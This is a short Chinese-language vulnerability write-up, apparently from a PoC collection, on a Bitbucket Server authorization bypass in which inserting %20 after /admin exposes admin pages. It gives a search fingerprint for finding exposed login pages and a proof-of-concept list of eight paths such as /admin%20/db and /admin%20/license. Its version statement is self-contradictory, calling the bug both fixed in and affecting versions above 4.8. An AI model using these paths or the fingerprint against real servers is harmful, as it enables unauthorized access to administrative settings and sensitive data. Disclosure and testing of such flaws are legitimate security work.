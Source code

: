 # Bitbucket 登录绕过漏洞

## 漏洞描述

此错误已修复并部署在 Bitbucket Server > 4.8 上。Bitbucket 由 Atlassian 团队开发。其中出现了一个通过 %20 绕过权限的漏洞，导致任意用户可获取敏感数据

## 漏洞影响

<a-checkbox checked>Bitbucket Server > 4.8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Log in - Bitbucket"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646803634647-f4c4a968-440a-4dd0-8e1b-24955401b1f4.png)

验证POC

```javascript
/admin%20/mail-server
/admin%20/db
/admin%20/db/edit
/admin%20/license
/admin%20/logging
/admin%20/server-settings
/admin%20/authentication
/admin%20/avatars
```

![image-20220318011106473](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220318011106473.png)
